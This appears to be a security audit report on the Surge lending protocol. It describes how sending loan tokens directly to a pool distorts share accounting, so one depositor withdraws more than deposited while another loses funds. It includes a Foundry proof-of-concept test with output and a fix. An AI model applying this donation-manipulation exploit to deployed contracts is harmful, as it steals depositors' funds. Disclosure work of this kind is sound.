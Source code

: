 SunSec

high

# getCurrentState miscalculation can leads to fund loss in withdraw

## Summary

## Vulnerability Detail
There is a miscalculation in a pool contract's math `getCurrentState()` using in function withdraw(), Attacker can manipulated calculation by sending loantoken directly to pool, resulting miscalculated amount. it can lead to a vulnerability that can resulting in funds loss.

## Impact
The user will lose funds.
getCurrentState() will impact deposit(), withdraw(), repay(), borrow(), liquidate(), removeCollateral() to cause miscalculation.

In short :
Miscalculation in function withdraw(),  Attacker can control _currentTotalSupply.

Attack steps:
1.User A deposit 1e18.
2.Bob (attacker) directly transfer 100e18 to pool.
3.Alice deposit 3e18
4.User A withdraw more than he deposited. (User A can withdrawl:1100000000000000000096=1100.xxxxxx *1e18)
5.Alice can withdraw less than she deposited. Alice lost funds.

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L105-L165
```solidity
    function getCurrentState(
        uint _loanTokenBalance,
        uint _feeMantissa,
        uint _lastCollateralRatioMantissa,
        uint _totalSupply,
        uint _lastAccrueInterestTime,
        uint _totalDebt
        ) internal view returns (
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) {
...
uint _supplied = _totalDebt + _loanTokenBalance; //@audit, attacker can control _loanTokenBalance.
_accruedFeeShares = fee * _totalSupply / _supplied;   
_currentTotalSupply += _accruedFeeShares;  //@audit, so _currentTotalSupply can manipulate.
```
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L348-L370
```solidity
    function withdraw(uint amount) external {
        uint _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this));
        (address _feeRecipient, uint _feeMantissa) = FACTORY.getFee();
        (  
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) = getCurrentState(
            _loanTokenBalance,
            _feeMantissa,
            lastCollateralRatioMantissa,
            totalSupply,
            lastAccrueInterestTime,
            lastTotalDebt
        );

        uint _shares;
        if (amount == type(uint).max) {
            amount = balanceOf[msg.sender] * (_currentTotalDebt + _loanTokenBalance) / _currentTotalSupply;  //@audit  Miscalculation! Attacker can control _currentTotalSupply
            _shares = balanceOf[msg.sender];
        } else {
            _shares = tokenToShares(amount, (_currentTotalDebt + _loanTokenBalance), _currentTotalSupply, true); //@audit I have reported to another issue related tokenToShares.
        }
```
POC
```solidity
 function testWithdrawPoc() external {
    uint256 amount = 1000e18;
    MockERC20 collateralToken = new MockERC20(0, 18);
    MockERC20 loanToken = new MockERC20(1110e18, 18);
    loanToken.transfer(address(alice), 10e18);
    loanToken.transfer(address(bob), 100e18);
    Pool pool = factory.deploySurgePool(
      IERC20(address(collateralToken)),
      IERC20(address(loanToken)),
      1e18,
      0.8e18,
      1e15,
      1e15,
      0.1e18,
      0.4e18,
      0.6e18
    );

    //emit log_named_uint("Mint share", pool.tokenToShares(1, 0, 0, false));
    //emit log_named_uint("LoanToken balance", loanToken.balanceOf(address(this)));

    loanToken.approve(address(pool), amount);

    pool.deposit(1e18);

    vm.prank(bob);
    loanToken.transfer(address(pool), 100e18); // Attacker manipulated calculation by sending 10e18 loantoken directly to pool.

    emit log_named_uint(
      "First 1e18 depost, User A total share:",
      pool.balanceOf(address(this))
    );

    vm.startPrank(alice);
    loanToken.approve(address(pool), 3e18);
    pool.deposit(3e18);
    emit log_named_uint(
      "Alice put 3e18 deposit, get total share:",
      pool.balanceOf(address(alice))
    );
    pool.withdraw(type(uint256).max);
    vm.stopPrank();

    pool.withdraw(type(uint256).max);
    emit log_named_uint(
      "After withdrawal, User A loanToken balance:",
      loanToken.balanceOf(address(this))
    );
    emit log_named_uint(
      "After withdrawal, Alice loanToken balance:",
      loanToken.balanceOf(address(alice))
    );
    emit log_named_uint(
      "Pool loanToken balance:",
      loanToken.balanceOf(address(pool))
    );
  }

[PASS] testWithdrawPoc() (gas: 3303164)
Logs:
  First 1e18 depost, User A total share:: 1000000000000000000
  Alice put 3e18 deposit, get total share:: 29702970297029702
  After withdrawal, User A loanToken balance:: 1100000000000000000096  //User A can withdraw more than he deposited.
  After withdrawal, Alice loanToken balance:: 9999999999999999904  // Alice lose funds.
  Pool loanToken balance:: 0

```
## Tool used
Manual Review

## Recommendation
Using total loantoken deposited as `_loanTokenBalance` instead of loantokan balance in the pool.
